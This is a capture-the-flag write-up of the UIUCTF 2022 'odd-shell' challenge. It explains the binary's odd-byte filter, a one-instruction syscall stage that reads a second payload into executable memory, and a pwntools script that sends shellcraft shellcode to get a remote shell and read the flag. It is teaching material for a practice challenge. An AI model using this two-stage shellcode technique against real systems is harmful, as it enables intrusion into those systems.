 # odd-shell
This was a shellcoding challenge from UIUCTF 2022. 

[challenge](https://2022.uiuc.tf/challenges#odd%20shell-195)

## description
We were provided with a binary, Dockerfile and jail config. The Dockerfile was largely just for setting up the jail and placing the binary and flag so I'll omit them as they aren't particularly relevant to the solve.

```shell
$ file chal
chal: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cfaf75c6dc9d443a7fe42158387a05d74957d840, for GNU/Linux 3.2.0, not stripped

$ pwn checksec chal 
[*] './chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

## reverse engineering
Fire up ghidra and head over to main:
```c
undefined8 main(void)

{
  void *pvVar1;
  long sz;
  long i;
  
  setvbuf(stdout,NULL,2,0);
  setvbuf(stderr,NULL,2,0);
  setvbuf(stdin,NULL,2,0);
  puts("Display your oddities:");
  pvVar1 = mmap((void *)0x123412340000,0x1000,7,0x32,-1,0);
  if (pvVar1 != (void *)0x123412340000) {
    puts("I can\'t allocate memory!");
    exit(-1);
  }
  sz = read(0,(void *)0x123412340000,0x800);
  if (*(char *)(sz + 0x12341233ffff) == '\n') {
    *(undefined *)(sz + 0x12341233ffff) = 0;
    sz = sz + -1;
  }
  i = 0;
  while( true ) {
    if (sz <= i) {
      (*(code *)0x123412340000)();
      return 0;
    }
    // this line
    if ((*(byte *)(i + 0x123412340000) & 1) == 0) break;
    i = i + 1;
  }
  puts("Invalid Character");
  exit(-1);
}
```
Fairly standard shellcode runner with the exception of the line I commented. This line checks that each byte has the low bit set or, in other words is odd: hence all the references to odd-shell and oddities etc.

So we can run shellcode if all the bytes are odd.

## shellcoding
One nice thing I thought immediately is that we get the syscall instruction for free because it's a 64 bit binary and both the instruction bytes are odd:
```python
In [1]: asm('syscall').hex()
Out[1]: '0f05'
```
Assuming we want to pop a shell or cat the flag directly there's some difficulties. We'll likely not get all the bytes in the `/flag` path or `/bin/sh` along with many of the simple instructions. 

We could build our own encoder, likely with some kind of memory write operation for self modifying shellcode. We could also take some standard shellcode and then manually replace instructions with even bytes. Both sound like far too much hard work.

My general approach to any kind of constraint is to ignore whatever I was supposed to be doing and find the minimal constrained payload I can use to get an unconstrained payload. That way I can write simple easy `cat flag` or `pop shell` shellcode. Given the binary already setup an `rwx` page for us in a known location plus we can easily talk to it and we have the `syscall` instruction, all I really need to do is trigger a `read` syscall into the `rwx` page and send a second payload. 

I'll send a `syscall` payload and see how many argument registers we need to change to make it happen:
```shell
0x0000123412340000 in ?? ()

[ REGISTERS ]
 RAX  0x0
 RBX  0x56216a53e330 (__libc_csu_init) ◂— endbr64 
 RCX  0x7fbd66610fd2 (read+18) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x123412340000 ◂— 0x50f
 RDI  0x0
 RSI  0x123412340000 ◂— 0x50f
 R8   0xffffffff
 R9   0x0
 R10  0x32
 R11  0x246
 R12  0x56216a53e0e0 (_start) ◂— endbr64 
 R13  0x7fff7473a710 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fff7473a620 ◂— 0x0
*RSP  0x7fff7473a5f8 —▸ 0x56216a53e328 (main+351) ◂— mov    eax, 0
*RIP  0x123412340000 ◂— 0x50f
[ DISASM ]

 ► 0x123412340000    syscall  <SYS_read>
        fd: 0x0 (pipe:[4204123])
        buf: 0x123412340000 ◂— 0x50f
        nbytes: 0x123412340000 ◂— 0x50f
   0x123412340002    add    byte ptr [rax], al

```
Our syscall number in `rax` is 0, which is `SYS_read` so we get that for free - nice. arg1 which is `fd` is also 0 which refers to `stdin` so good there too. arg2 or `buf` points at the `rwx` page ... getting suspicious. arg3 or `nbytes` is the page address but `SYS_read` will be happy doing a short read. What else do we need? Nothing. The initial payload is the single instruction `syscall`. Having sent that the binary will be waiting to read a secondary payload into the `rwx` page. The only thing to note is that we need to prepend the secondary payload with 2 bytes which represent the `syscall` instruction we've already run. A whopping 2 bytes.

Put it all together and the now rather simple solver script becomes:

```python
from pwn import *

context.arch = 'amd64'

io = remote('odd-shell.chal.uiuc.tf', 1337)

# send primary payload - padded with an odd byte to max size
io.sendafter(b':\n', flat(asm('syscall'), length=0x800, filler=b'\x01')) 
# send secondary payload at an offset after the syscall instruction
io.send(flat({2: asm(shellcraft.sh())}))

io.interactive()
```

```shell
$ ./solve.py 
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337:
[*] Switching to interactive mode
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
```

Given the large number of solves during the competition and the possible hint in the flag that things were set up as needed, the challenge author may well have been pointing out that it always pays to check your initial execution context to find the minimal amount of work that needs doing. What's the smallest constrained loader you've written recently?